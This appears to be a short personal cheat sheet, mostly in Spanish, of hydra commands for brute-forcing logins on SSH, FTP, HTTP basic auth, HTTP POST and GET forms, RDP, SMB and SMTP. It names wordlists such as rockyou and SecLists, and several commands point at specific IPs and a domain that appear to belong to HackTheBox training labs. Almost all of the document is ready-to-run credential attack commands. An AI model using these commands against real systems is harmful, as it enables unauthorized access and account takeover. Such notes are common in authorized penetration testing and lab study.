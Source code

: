 

#### Ssh bruteforcing:
    hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://ip:port -t 4 -f
#### Ftp bruteforcing:
    hydra -l <nombre_de_usuario> -P <ruta_al_diccionario> <dirección_IP> ftp -f

#### Simplehttp auth:
    hydra  -l user -P diccionario ip -s port http-get "/path-to-login" -f

#### Login por método post:
    hydra -l user -P diccionario -f host/ip -s puerto http-post-form "path-to-login:variable_username=^USER^&variable_password=^PASS^:elemento html para comparación(mensaje de error de logueo, formulario, etc)"

#### Login por método get:
    hydra -L /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -p minga -f 83.136.254.53 -s 53056 http-get-form "/question1:Username=^USER^&Password=^PASS^:Invalid username"

#### Login rdp:
    hydra -L user.list -P password.list rdp://10.129.42.197

#### Login smb:
    hydra -L user.list -P password.list smb://10.129.42.197

#### Smpt:
    hydra -l fiona@inlanefreight.htb -P pws.list smtp://10.129.203.7 -f


#### Listas interesantes:
ftp-betterdefaultpasslist.txt (seclist) credenciales user:pass

